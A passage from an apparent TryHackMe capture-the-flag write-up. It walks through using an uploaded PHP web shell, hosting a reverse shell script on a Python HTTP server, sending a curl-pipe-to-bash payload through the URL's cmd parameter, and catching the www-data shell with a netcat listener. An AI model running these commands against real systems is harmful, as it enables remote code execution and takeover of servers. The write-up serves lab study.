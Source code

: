 Navigate to the path contains the uploaded shell → Add `?cmd=` argument for it and enter the ************************command************************ to execute

![Untitled](HakervsHacker%20images/Untitled%206.png)

The shell worked successfully!

# Gain Access + Privilege Escalation → user lachlan

Open port `http.server` to transfer the reverse shell

```tsx
┌──(kali㉿kali)-[~/Shells]
└─$ ls                                                                    
nodejsshell.py  shell.php  shell.py  shell_tcp.sh  shell_udp.sh
                                                                                                                    
┌──(kali㉿kali)-[~/Shells]
└─$ python3 -m http.server 80                                        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Start `Netcat Listener` and enter the following command into the URL

```tsx
┌──(kali㉿kali)-[~/TryHackMe]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

```tsx
http://10.10.42.59/cvs/shell.pdf.php?cmd=curl+http://10.8.97.213:80/shell_tcp.sh+|+bash+-i
```

Verify file that the reverse shell has been transferred

```tsx
┌──(kali㉿kali)-[~/Shells]
└─$ python3 -m http.server 80                                        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.42.59 - - [07/Jul/2023 07:52:06] "GET /shell_tcp.sh HTTP/1.1" 200 -
```

Back to the `nc` terminal

```tsx
┌──(kali㉿kali)-[~/TryHackMe]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.97.213] from (UNKNOWN) [10.10.42.59] 38362
bash: cannot set terminal process group (735): Inappropriate ioctl for device
bash: no job control in this shell
www-data@b2r:/var/www/html/cvs$
```
